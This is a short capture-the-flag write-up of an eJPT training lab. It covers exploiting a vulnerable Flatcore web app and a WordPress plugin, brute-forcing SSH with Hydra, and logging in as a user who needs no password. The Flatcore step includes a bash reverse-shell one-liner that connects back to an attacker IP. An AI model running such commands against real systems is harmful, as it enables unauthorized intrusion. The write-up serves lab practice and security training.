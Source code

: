```yaml
---
title: "eJPT - Host & Network Penetration Testing: Exploitation CTF 1"
date: 2025-06-01 00:00:02 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]
image:
    path: /assets/img/1.gif
    alt: image
---
```



### Lab Environment

Two Linux machines are accessible at **target1.ine.local** and **target2.ine.local**. Identify the application and service running on these machines, and capture the flags. The flag is an md5 hash format.

- **Flag 1:** Identify and exploit the vulnerable web application running on **target1.ine.local** and retrieve the flag from the root directory. The credentials **admin:password1** may be useful.
- **Flag 2:** Further, identify and compromise an insecure system user on **target1.ine.local**.
- **Flag 3:** Identify and exploit the vulnerable plugin used by the web application running on **target2.ine.local** and retrieve the **flag3.txt** file from the root directory.
- **Flag 4:** Further, identify and compromise a system user requiring no authentication on **target2.ine.local**.

The following wordlists will be useful:

- /usr/share/nmap/nselib/data/wp-plugins.lst
- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

### Tools

- Nmap
- Hydra
- Dirb
- Python3
- Metasploit

---



### Question 1:

Identify and exploit the vulnerable web application running on target1.ine.local and retrieve the flag from the root directory. The credentials admin:password1 may be useful.

In this we’ll gather the Information Gathering and found that system is running a vulnerable version of flatcore and exploiting this services gained access into the system. This is done by running the Exploit code which is just a username and the password


![alt text](</assets/img/Pasted image 20250601191931.png>)
```
python3 50262.py '<http://target1.ine.local>' 'admin' 'password1'
bash -c 'bash -i >& /dev/tcp/192.88.252.2/4444 0>&1'
```

---

### Question 2:

Further, identify and compromise an insecure system user on target1.ine.local.

here we are able to brute force using `hydra` on the user we found way in our initial access to the system, with that creds we logged in using SSH and found the flag2!.

![alt text](</assets/img/Pasted image 20250601191946.png>)
SSH into the machines

---

### Question 3:

Identify and exploit the vulnerable plugin used by the web application running on target2.ine.local and retrieve the flag3.txt file from the root directory.

In here the scope is already given for us, and we again run Nmap to identify the plugin, and exploiting the vulnerability will lead us to flag3!!

![alt text](</assets/img/Pasted image 20250601192008.png>)
```
nmap - script http-wordpress-enum - script-args host=target2.ine.local
```
![alt text](</assets/img/Pasted image 20250601192021.png>)

With this module from MSF console we’ll gain access to that target system.

---

### Question 4:

Further, identify and compromise a system user requiring no authentication on target2.ine.local.

In the system after navigating we found the username on /etc/passwd which with if logged on into the system, we grant access with out password.

```
ssh <user>@target2.ine.local
```

![alt text](</assets/img/Pasted image 20250601192039.png>)
And that’s how we found all the flag and completed the room!!! happy hacking!!!!
